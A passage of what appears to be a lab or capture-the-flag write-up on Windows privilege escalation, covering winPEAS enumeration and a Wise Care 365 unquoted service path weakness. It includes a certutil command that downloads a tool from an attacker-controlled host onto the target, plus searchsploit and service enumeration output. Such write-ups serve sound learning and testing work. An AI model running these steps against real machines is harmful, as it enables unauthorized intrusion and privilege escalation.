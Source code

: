 ## Privilege Escalation Enumeration (winPEAS)

### WinPEAS

On the local system:
- Download winPEASx64.exe and move to transfers folder
- cd into the transfers folder
- Start a http server `python3 -m http.server 80`

On the target system:
- Find a folder with write access e.g. Desktop
- `cd C:\Users\Butler\Desktop`
- Download winPEAS `certutil.exe -urlcache -f http://10.0.2.9/winPEASx64.exe winpeas.exe`

### Manual

```console
┌──(kali㉿kali)-[~]
└─$ searchsploit wise care
------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                      |  Path
------------------------------------------------------------------------------------ ---------------------------------
Wise Care 365 4.27 / Wise Disk Cleaner 9.29 - Unquoted Service Path Privilege Escal | windows/local/40417.txt
Wise Care 365 5.6.7.568 - 'WiseBootAssistant' Unquoted Service Path                 | windows/local/50038.txt
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
> Perfect there is an exploit in that version of WiseCare

Let look at the exploit `nano /usr/share/exploitdb/exploits/windows/local/50038.txt`  


Follow instructions:
1. To find the unquoted service path vulnerability: `wmic service where 'name like "%WiseBootAssistant%"' get displayname, pathname, startmode, startname`

```console  
C:\>wmic service where 'name like "%WiseBootAssistant%"' get displayname, pathname, startmode, startname

DisplayName          PathName                                                StartMode  StartName
Wise Boot Assistant  C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe  Auto       LocalSystem
```

2. To check service info: `sc qc "WiseBootAssistant"`

```console
C:\Users\Administrator>sc qc "WiseBootAssistant"
sc qc "WiseBootAssistant"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: WiseBootAssistant
        TYPE               : 110  WIN32_OWN_PROCESS (interactive)
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Wise Boot Assistant
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

```